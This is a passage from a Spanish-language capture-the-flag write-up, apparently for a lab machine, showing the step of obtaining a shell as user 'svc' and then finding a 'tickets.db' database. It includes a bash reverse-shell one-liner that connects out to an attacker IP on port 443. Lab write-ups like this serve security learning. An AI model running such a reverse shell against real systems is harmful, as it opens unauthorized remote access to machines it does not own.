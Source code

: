 ![20240721001533.png](20240721001533.png)

Ahora debemos obtener una revershell y para ello yo use el siguiente comando de bash:

```c
bash -c 'exec bash -i &>/dev/tcp/10.10.14.55/443 <&1'
```

Para luego correr el código nuevamente pero con la revershell y obtendremos una shell como el usuario `svc`

![20240721001742.png](20240721001742.png)

# Shell - Joshua

Enumerando los directorios encontraremos una base de datos `tickets.db `

![20240721002940.png](20240721002940.png)
